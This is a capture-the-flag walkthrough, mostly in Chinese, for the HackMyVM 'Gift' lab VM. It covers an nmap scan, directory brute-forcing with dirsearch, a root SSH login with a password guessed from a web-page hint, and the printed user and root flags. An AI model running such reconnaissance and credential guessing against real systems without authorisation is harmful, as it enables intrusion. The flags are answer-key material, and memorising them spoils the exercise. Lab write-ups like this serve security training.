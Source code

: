 # Gift

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-09-25

✔️ MD5 // 8739fe37f9831989cff0ec5dba714947

☠ Root // 516

💀 User // 501

📝Notes //
A really easy VM. Thats a gift :)

:::

## 靶机启动

![靶机启动](img/image_20231248-224823.png)

虚拟机 IP：

```plaintext
192.168.163.129
```

## nmap 信息搜集

```shell
Nmap scan report for 192.168.163.129
Host is up (0.00037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey:
|   3072 2c1b3627e54c527b3e10944139efb295 (RSA)
|   256 93c11e32240e34d9020effc39c599bdd (ECDSA)
|_  256 81ab36ecb12b5cd28655120c510027d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:8A:C2:42 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 访问 web - 80

![web port 80](img/image_20231255-225548.png)

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.163.129
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 57
Content-Type: text/html
Date: Thu, 21 Dec 2023 15:11:49 GMT
ETag: "5f678373-39"
Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
Server: nginx

Dont Overthink. Really, Its simple.
        <!-- Trust me -->
```

## 尝试目录爆破

```shell
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $dirsearch -u 192.168.163.129

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10903

Output File: /usr/lib/python3/dist-packages/dirsearch/reports/192.168.163.129_23-12-21_22-56-29.txt

Error Log: /usr/lib/python3/dist-packages/dirsearch/logs/errors-23-12-21_22-56-29.log

Target: http://192.168.163.129/

[22:56:29] Starting:
[22:56:38] 200 -   57B  - /index.html
```

## 尝试登录 SSH 服务

:::note 上文 web 所说的内容

```plaintext
ont Overthink. Really, Its simple.
```

尝试使用 `simple` 作为凭据登录 ssh 服务

:::

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $ssh root@192.168.163.129
root@192.168.163.129's password:
IM AN SSH SERVER
gift:~# whoami
root
gift:~# ls -lh
total 8K
----------    1 root     root          12 Sep 24  2020 root.txt
-rw-rw----    1 root     root          12 Sep 24  2020 user.txt
```

## user pwned

```shell
gift:~# cat user.txt
HMV665sXzDS
```

## root pwned

```shell
gift:~# cat root.txt
HMVtyr543FG
```
